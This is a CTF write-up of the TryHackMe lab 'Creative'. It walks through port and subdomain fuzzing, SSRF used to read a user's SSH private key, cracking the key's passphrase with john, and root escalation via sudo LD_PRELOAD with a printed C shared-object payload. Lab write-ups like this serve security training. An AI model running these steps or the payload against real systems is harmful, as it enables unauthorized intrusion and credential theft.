 ```yaml
---
title: "Creative"
date: 2025-02-18
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Creative
categories: [TryHackMe, Easy]
tags: [linux, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Creative</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploit a vulnerable web application and some misconfigurations to gain root privileges.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/creative">https://tryhackme.com/room/creative</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Creative.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.222.5               
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:54 EST
  Nmap scan report for 10.10.222.5
  Host is up (0.045s latency).
  Not shown: 65533 filtered tcp ports (no-response)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 116.54 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.222.5
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:57 EST
  Nmap scan report for 10.10.222.5
  Host is up (0.044s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
  |   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
  |_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
  80/tcp open  http    nginx 1.18.0 (Ubuntu)
  |_http-title: Did not follow redirect to http://creative.thm
  |_http-server-header: nginx/1.18.0 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 11.71 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

When I accessed the webserver my browser got redirect to the dns name `creative.thm`. I added the name in my `hosts` file an proceed. Because of the hostname, I started with a subdomain enumeration:

```bash
 ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.creative.thm" -u http://10.10.222.5/ -fs 178

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : GET
   :: URL              : http://10.10.222.5/
   :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
   :: Header           : Host: FUZZ.creative.thm
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
   :: Filter           : Response size: 178
  ________________________________________________

  beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 45ms]
```

I found a subdomain which showed an URL Tester:

![URL tester](/assets/img/tryhackme/Creative/thm_creative_1.jpg)

I started with the local website `http://127.0.0.1/` and the website got loaded. This seemed to be a Server-Side Request Forgery (SSRF) vulnerability, so I checked if I were able to reach another internal system on a different port. I used ffuf to fuzz localhost and all ports up to 65535. I created a port list using `seq` as the wordlist for ffuf.

```bash
$ seq 65535 > ports.txt
$ ffuf -w ports.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fs 13

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : POST
   :: URL              : http://beta.creative.thm/
   :: Wordlist         : FUZZ: /home/kali/ctf/creative/ports.txt
   :: Header           : Content-Type: application/x-www-form-urlencoded
   :: Data             : url=http://127.0.0.1:FUZZ
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
   :: Filter           : Response size: 13
  ________________________________________________

  80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 80ms]
  1337                    [Status: 200, Size: 1143, Words: 40, Lines: 39, Duration: 78ms]
```

Ffuf identified an interesting port. I started checking the `1337` which revealed a directory listing from the server:

![Directory browsing](/assets/img/tryhackme/Creative/thm_creative_2.jpg)

Since I had some initial access to the system I enumerated the files and directories for gaining a better access. I found the `.bash_history` in the `/home/saad` directory. The user stored his credentials in a file:
```bash
[...]
sudo -l
echo "saad:[removed]" > creds.txt
rm creds.txt
[...]
```

I tried to use this to connect with SSH, but got an error because of my public key. I searched for `saad's` private key and found it under `/home/saad/.ssh/id_rsa`. After downloading the key I stored it in a file called `id_rsa`. For the SSH connection I needed the password for the key. I used `ssh2john` to retrieve the key hash and stored it in a file. With john and the rockyou.txt wordlist, I was able to crack the password. After that I was able to login with SSH and retrieved the user flag:
```bash
$ nano id_rsa
$ ssh2john id_rsa > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
  Cost 2 (iteration count) is 16 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  sweetness        (id_rsa)     
  1g 0:00:00:10 DONE (2025-02-18 04:23) 0.09124g/s 87.59p/s 87.59c/s 87.59C/s hawaii..sandy
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
$ chmod 600 id_rsa
$ ssh -i id_rsa saad@10.10.246.214

saad@m4lware:~$ cat user.txt
  [removed]
```

## Privilege Escalation root
I started with `sudo -l` because I already found the password and got the following output:
```bash
$ sudo -l
  [sudo] password for saad: 
  Matching Defaults entries for saad on m4lware:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

  User saad may run the following commands on m4lware:
      (root) /usr/bin/ping
```

The tool `ping` itself won't help that much on its own, but in combination with `env_keep+=LD_PRELOAD` it did. First I created a file called shell.c with the following content:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

Then I compiled it as a shared object using `gcc`:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

I was able to specify the `LD_PRELOAD` to point to my shared object, started a ping using `sudo` and became root. From there I was able to retrieve the root flag:
```bash
$ sudo LD_PRELOAD=/home/saad/shell.so /usr/bin/ping
root@m4lware:/home/saad# cd /root
root@m4lware:~# cat root.txt 
  [removed]
```

solved! :)